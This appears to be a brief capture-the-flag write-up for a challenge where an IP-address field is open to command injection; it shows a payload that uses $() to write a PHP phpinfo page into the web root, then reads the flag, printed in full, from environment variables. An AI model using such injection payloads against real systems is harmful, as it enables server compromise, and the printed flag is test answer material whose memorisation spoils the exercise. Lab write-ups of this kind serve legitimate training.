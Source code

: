
Just because we humans are unable to observe something, doesn’t mean it isn't occurring.

I was greeted with the following

![[Pasted image 20240810174618.png]]

I thought of it maybe a susceptible to injection attack and tried it worked

then I utilised following command 

`127.0.0.1 $(echo '<?php echo phpinfo() ?>' > /var/www/html/test.php)`


This command does the following:

1. **`echo '<?php echo phpinfo() ?>'`**: Outputs the PHP code `<?php echo phpinfo() ?>`.
    
2. **`> /var/www/html/test.php`**: Redirects the output to a file named `test.php` in the `/var/www/html/` directory.

![[Pasted image 20240810174907.png]]

After doing so change the URL by appending `/test.php`
![[Pasted image 20240810174926.png]]

Scrolling down You can find flag in Environment variables.

![[Pasted image 20240810174959.png]]

The flag is `KPMG_CTF{8pQyCFIRyWSfj6SZSaOTNyWsIYn76_9gs5yJUOHlOMSJn33uiFyHNkoQOamP3NqFDZn9m8FiGQmBpUAuFlnqnE5gAGzkQSPTs9H_97u}`



